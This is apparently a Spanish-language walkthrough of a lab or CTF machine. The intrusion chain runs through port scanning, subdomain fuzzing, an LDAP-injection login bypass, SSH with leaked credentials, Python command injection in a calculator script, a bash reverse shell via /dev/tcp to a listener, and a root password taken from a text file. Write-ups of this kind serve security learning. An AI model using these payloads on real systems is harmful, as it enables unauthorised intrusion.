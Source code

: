 nmap: 22,80

![image](https://github.com/user-attachments/assets/2b6eed0f-c4b9-4bcb-b84d-3fbfe9437982)


---
al hacer el nmap vemos que el puerto 80 tiene una pagina con "hl" al final

![image](https://github.com/user-attachments/assets/00fb62a3-401f-40ce-a6c6-046641820ccd)

lo que tenemos que agregar esa redirección en el  "/etc/hosts"
http://404-not-found.hl/

en la pagina principal ahora vemos eso y aceptamos el desafio:

![image](https://github.com/user-attachments/assets/ca2f05b7-9e39-4c8b-b1c6-ab6cef4f2fd4)


en la pagina hay cuadros con "pistas". hay una en código base64 

![image](https://github.com/user-attachments/assets/21c6bc7f-4b39-4991-b972-2e4f1fbf9b75)


que lo sacamos:
>echo "`UXVlIGhhY2VzPywgbWlyYSBlbiBsYSBVUkwu`" | base64 -d 

![[base64.png]]

y nos da: Que haces?, mira en la URL. 

hacemos un:


    - wfuzz -c -u 404-not-found.hl -H "HOST: FUZZ.404-not-found.hl" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt --hw 28

nos da: info
![[resultado wff.png]]

metemos ese info en /etc/host como el primer URL que tenemos.
http://info.404-not-found.hl/
quedaría: info.404-not-found.hl
![[login.png]]

nos manda a un login y vamos probando credenciales por default. 
vemos el código fuente y al final hay un mensaje:
> I believe this login works with LDAP  

![[codigo fuente.png]]

buscamos credenciales de inyección de LDAP
probamos las inyección que tiene: https://book.hacktricks.xyz/v/es/pentesting-web/ldap-injection

![[credenciales 1 1.png]]
y sirve: 

        user=*)(|(&
         pass=pwd)

en el panel de admin nos da las credenciales: 

       - Nombre de usuario: `404-page`
       - Contraseña: `not-found-page-secret`

![[credenciales 2.png]]

entramos por el ssh en el terminal y ahora buscamos como escalar hacia root.
![[conexion .png]]

como se ve hay un calculadora.py se refiere a python y solo podemos ejecutar.

![[ejecutable 1.png]]

encontramos un comando para ejecutar con python del programa que encontramos:
https://snyk.io/blog/command-injection-python-prevention-examples/

![[codigo python 1.png]]

comando de ejecución:

     __import__('os').popen('ls').read()

![[prueba 1 1.png]]

lo modificamos para una reverse shell para verificar: 

         __import__('os').popen("/bin/bash -c 'bash -i >& /dev/tcp/172.17.0.1/443 0>&1'").read()

olocamos el puerto en escucha y estamos dentro del usuario 200-ok

![[conexion nc.png]]

 buscamos como escalar y aparece un txt que se llama: 
>boss.txt que contiene: what is rooteable

![[boss.png]]

probamos rooteable como contraseña de root:

![[root.png]]

su root / rooteable y somos root!: 
